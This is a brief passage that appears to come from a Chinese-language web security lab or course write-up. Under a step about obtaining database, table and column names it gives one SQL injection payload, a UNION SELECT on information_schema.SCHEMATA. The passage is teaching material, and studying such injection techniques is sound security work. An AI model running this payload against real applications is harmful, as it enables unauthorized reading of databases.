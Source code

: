 ![image-20250625114626225](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625114626225.png)



⑤获取数据库名、数据表名、字段名

数据库名

```
1' or 1 = 1 union select 'info',schema_name FROM information_schema.SCHEMATA # 
```
